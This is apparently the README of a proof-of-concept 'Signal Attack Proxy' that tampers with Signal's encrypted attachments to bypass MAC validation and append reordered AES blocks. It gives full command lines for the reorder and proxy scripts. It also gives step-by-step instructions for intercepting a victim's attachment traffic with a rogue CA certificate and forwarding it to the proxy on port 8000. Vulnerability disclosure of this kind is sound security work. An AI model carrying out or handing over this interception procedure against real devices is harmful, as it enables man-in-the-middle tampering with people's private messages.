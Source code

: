 # Signal Attack Proxy

This is a PoC the vulnerabilities found in the [Signal Private Messenger](https://whispersystems.org). It is acting as a proxy and will modify encrypted attachments in a way so that the MAC validation is bypassed and 4GB of data is attached.

You can specify ranges of blocks to attach to the original attachment. E.g. the ranges "0-100,1000-2000,0-100" would append blocks 0 to 100 followed by blocks 1000-2000 and then again 0-100 to the attachment. Blocks are AES blocks of 16bytes.

## Example Demonstrating the MP3 Robustness

./reorder.py notanissue.mp3 0-2700,4000-4320,4500-6320,6800-7400,6800-7400,6800-7400,6800-7400,4500-5380,6800-7400,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450  > test.mp

mplayer test.mp3


## Example Attack Against Signal

./sap-thatsnotwhatisaid.py --encoding <encoding (gzip only)> --blocks <range1>,<range2>

To recreate the video found at https://www.youtube.com/watch?v=brN6D9Fc4dc do the following:

  1. Install a rouge CA certificate on your Android device (or use a real one if you got one ;)
  2. Start the proxy using the cmdline sap-thatsnotwhatisaid.py --encoding gzip --blocks 0-2700,4000-4320,4500-6320,6800-7400,6800-7400,6800-7400,6800-7400,4500-5380,6800-7400,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380,2700-2850,7000-7450,2000-2750,4500-5380
  3. Intercept the request to the Signal attachment server and forward it to the host running sap-thatsnotwhatisaid.py, port 8000.
  4. Send the notanissue.mp3 from another signal contact to the Android device.
  5. Profit.

